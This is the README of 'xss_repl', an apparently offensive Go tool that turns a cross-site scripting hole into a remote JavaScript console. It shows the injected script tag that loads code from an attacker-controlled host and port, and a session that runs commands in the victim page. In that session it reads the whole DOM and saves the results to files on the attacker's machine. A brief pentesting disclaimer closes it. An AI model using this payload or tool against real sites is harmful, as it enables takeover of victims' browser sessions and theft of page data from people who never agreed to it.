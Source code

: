 # xss_repl

Runs a REPL against an XSS target.

## Usage

Run it, it has good defaults, and it will wait for the target to connect to its address.

```
$ go run xss_repl.go
Waiting for target to connect: <script src="http://10.10.18.80:52468/7626ff87da9025fa0afad6cbcc954b47/"></script>
```

When the target connects it will start the REPL.

```
"target connected"
> 
```

The commands are executed in the target's JS context and the return value is printed as JSON.

```
> window.location.href
"file:///Users/mgbelisle/Desktop/target.html"
```

Commands can be typed manually or run from a file on the attacker's machine. For example, this is the content of a file

```
$ cat example.js
1 + 2
```

and running it results in this.

```
> file://example.js
3
```

You can write the results of the previous command to a file.

```
> > file://example-out.json
```

```
$ cat example-out.json
3
```

You can read the whole DOM like this

```
> document.documentElement.outerHTML
"<html>...</html>"
> > file://document.json
```

which saves it in a file as JSON (in this case a string with the html). To write the html itself to a file just JSON decode it.

```
$ cat document.json | python -c "import json, sys; print(json.load(sys.stdin))" > document.html
```

## Disclaimer

This tool is for ethical pentesting only. Only you are responsible for how you use it.
